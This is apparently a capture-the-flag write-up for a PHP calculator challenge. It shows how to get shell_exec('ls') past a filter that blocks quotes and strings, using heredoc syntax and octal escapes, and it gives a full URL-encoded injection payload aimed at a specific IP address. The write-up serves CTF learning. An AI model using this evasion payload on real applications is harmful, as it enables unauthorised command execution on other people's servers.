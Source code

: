 Within the source code files lies a flag.txt file. The name of the file is created through some hashing which is impossible to guess. We clearly need to put some code in the query string that the server will then execute to see the available files in the working directory to see what the flag file is called - from there, we can simply access it with a get request: `https://challenge_url/name_of_flag_file`.

We can do this with some special PHP syntax, as well as encoding letters into octal numbering. The specific code I decided to execute was 

```PHP
shell_exec('ls')
```

It will be difficult to work with both the parenthesis here as well as the single quotes, so we can take advantage of the fact that php functions can both be executed in the form of `shell_exec('ls')` OR `("shell_exec")("ls")`. We can combine this with [heredoc syntax](https://www.php.net/manual/en/language.types.string.php#language.types.string.syntax.heredoc) to form our payload. 

Heredoc essentialy allows to express double quotes with the characters `<<<`, some header character (I chose{% raw %} _{% endraw %}), and some newlines. I then formed this:
```
(<<<_
 shell_exec)
 _
 (<<<_
 ls)
 _
```
Of course, strings are not allowed, but in PHP, we can encode them by using the escape character and converting them into octal values. `shell_exec` converts to `/163/150/145/154/154/137/145/170/145/143`, and `ls` converts to `/154/163`. To make a valid get request, I url encoded the converted numbers and got this final payload: `http://45.129.40.107:9668/?formula=(%3C%3C%3C_%0A%5C163%5C150%5C145%5C154%5C154%5C137%5C145%5C170%5C145%5C143%0A_)(%3C%3C%3C_%0A%5C154%5C163%0A_)`

The code successfully executed and I saw this: 

![SimpleCalculator](/assets/SimpleCalculatorFlagName.jpg)
